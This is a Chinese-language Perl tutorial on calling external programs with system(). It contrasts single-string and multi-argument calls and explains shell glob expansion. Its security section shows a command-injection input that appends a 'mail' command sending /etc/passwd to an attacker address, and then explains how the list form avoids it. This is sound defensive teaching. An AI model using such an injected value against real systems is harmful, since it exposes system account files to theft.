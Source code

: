 ```yaml
---
title: "使用Perl的system运行外部程序"
timestamp: 2013-06-08T17:06:41
tags:
  - system
published: true
original: running-external-programs-from-perl
books:
  - beginner
author: szabgab
translator: terrencehan
---
```



很多情况下，需要把程序包装在Perl脚本中运行。

例如，我们可以用Perl来收集执行某个程序所需的参数。

或者也可以捕获其它命令行程序的输出，然后再基于它们做一些决策。

Perl提供了很多不同的解决方案。来看一下。


## system

`system`可能是最简单的。它最基本的形式就是以字符串传入你想执行的外部命令。

例如在Unix/Linux机器上有用来创建用户帐号的"adduser"命令。
你可以这样调用：

`/usr/sbin/adduser --home /opt/bfoo --gecos "Foo Bar" bfoo`

如果想从perl脚本里运行，可以按照下面的形式写：

```perl
  system('/usr/sbin/adduser --home /opt/bfoo --gecos "Foo Bar" bfoo');
```

这样会运行adduser命令，它的任何输出或错误都会最终显示在屏幕上。

你也可以先组装命令，下面两个例子都会给出同样的结果：

```perl
  my $cmd = '/usr/sbin/adduser --home /opt/bfoo --gecos "Foo Bar" bfoo';
  system($cmd);
```

```perl
  my $cmd = '/usr/sbin/adduser';
  $cmd .= ' --home /opt/bfoo';
  $cmd .= ' --gecos "Foo Bar" bfoo';
  system($cmd);
```

## 使用多参数的system

`system`可接收多个参数，所以可以这样改写上面的例子：
```perl
  my @cmd = ('/usr/sbin/adduser');
  push @cmd, '--home';
  push @cmd, '/opt/bfoo';
  push @cmd, '--gecos',
  push @cmd, 'Foo Bar',
  push @cmd, 'bfoo';
  system(@cmd);
```

在这种情况下上面的所有解决方案的结果都是一样的，但情况又不总是这样。

## Shell 扩展

假设你有一个用来检查文件的<b>checkfiles</b>程序。调用<b>checkfiles data1.txt data2.txt</b>或
<b>checkfiles data*.txt</b>可以检查所有以'data'开头并以'txt'作为扩展名的文件。
第二种执行程序的方法在Unix/Linux系统上会有效，shell会把'data*.txt'展开成所有匹配的文件名。当<b>checkfiles</b>执行的时候就已经有合适的文件列表：<b>checkfiles data1.txt data2.txt data42.txt database.txt</b>。而在Windows上因为命令行不会做这种扩展而没有效果，程序只是将'data*.txt'作为输入。

Perl脚本会如何处理？

Windows平台没有区别。但是在Unix/Linux系统上，如果在Perl脚本中使用单个字符串运行'checkfiles'程序：`system("checkfiles data*.txt")`，
那么Perl会将字符串传递给shell，由shell进行扩展，然后再将文件列表传递给'checkfiles'程序。
另一方面，如果你将命令和参数作为独立的字符串传递：`system("checkfiles", "data*.txt")`，那么perl会直接以'data*txt'作为单个参数（不做扩展)运行'checkfiles'程序。

如你所见，把单个字符串作为整个命令有它的优势。

但这种优势也是有代价的。

## 安全风险

如果输入源不可信（如从web或服务器日志文件），使用单个参数并传递整个命令来调用system可能会有安全风险。

假设从一个不可信源接收checkfiles的参数：

```perl
  my $param = get_from_a_web_form();
  my $cmd = "checkfiles $param";
  system($cmd);
```

用户键入'data*.txt'还好，`$cmd`会赋值成`checkfile data*.txt`。

但假如用户传递的是其它更‘聪明’的参数，你可能就会陷入麻烦。例如，如果用户输
`data*.txt; mail blackhat@perlmaven.com &lt; /etc/passwd`。
最终perl会得到如下命令：
`checkfile data*.txt; mail darkside@perlmaven.com &lt; /etc/passwd`.

shell会首先执行'checkfile data*.txt'，但之后会继续执行'mail...'命令。
这会把你的密码文件发送到darkside。

如果你的Perl脚本传递多个参数使用`system`，就可以避免这样的安全风险。假设Perl代码是这样的：

```perl
  my $param = get_from_a_web_form();
  my @cmd = ("checkfiles", $param);
  system(@cmd);
```

然后用户输入`data*.txt; mail blackhat@perlmaven.com &lt; /etc/passwd`，相应的perl脚本会运行
'checkfiles'程序，并向它传递一个参数:`data*.txt; mail blackhat@perlmaven.com &lt; /etc/passwd`。
此时shell不会扩展参数，也避免了shell的危险。'checkfiles'程序可能会提示找不到文件`data*.txt; mail blackhat@perlmaven.com &lt; /etc/passwd`，
但至少我们的密码文件是安全的。

## 总结和深入阅读

向`system`传递由一个字符串构成的命令是挺方便的，但是如果输入来自一个不可信任的源就可能会很容易的招致攻击。
这份危险可以通过首先按照一份<b>白名单</b>检查输入是否有效来规避。你也可以通过在#!行使用`-T`标志开启<b>taint模式</b>来强制
自己注意这些方面。

更多内容请参阅[system的文档](/perldoc/system)。

